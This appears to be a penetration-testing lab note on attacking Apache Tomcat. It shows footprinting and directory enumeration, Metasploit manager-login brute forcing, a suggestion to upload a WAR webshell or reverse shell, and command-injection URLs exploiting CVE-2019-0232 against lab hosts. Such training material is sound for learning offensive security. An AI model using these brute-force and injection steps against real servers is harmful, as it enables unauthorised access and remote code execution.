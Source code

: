 # Discovery/Footprinting
Tomcat servers can be identified by the Server header in the HTTP response. If the server is operating behind a reverse proxy, requesting an invalid page should reveal the server and version. Here we can see that Tomcat version 9.0.30 is in use.

```bash
$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```

This is the default documentation page, which may not be removed by administrators. Here is the general folder structure of a Tomcat installation.

The bin folder stores scripts and binaries needed to start and run a Tomcat server. The conf folder stores various configuration files used by Tomcat. The tomcat-users.xml file stores user credentials and their assigned roles. The lib folder holds the various JAR files needed for the correct functioning of Tomcat. The logs and temp folders store temporary log files. The webapps folder is the default webroot of Tomcat and hosts all the applications. The work folder acts as a cache and is used to store data during runtime.

Each folder inside webapps The most important file among these is WEB-INF/web.xml, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the WEB-INF/classes folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The lib folder stores the libraries needed by that particular application. The jsp folder stores Jakarta Server Pages (JSP), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server

# Enumeration
```bash
$ gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
```

# Attacking Tomcat
If we can access the /manager or /host-manager endpoints, we can likely achieve remote code execution on the Tomcat server.
We can use the auxiliary/scanner/http/tomcat_mgr_login Metasploit module for these purposes

## Login Brute Force
```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

## Manager - WAR File Upload
The manager web app allows us to instantly deploy new applications by uploading WAR files.

/opt/tomcat/apache-tomcat-10.0.10/webapps

We could deploy WAR webshell or WAR reverse shell.
 

## CGI
CVE-2019-0232 is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the enableCmdLineArguments feature enabled. An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system. Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.
```bash
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

http://10.129.204.227:8080/cgi/welcome.bat?&dir
c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
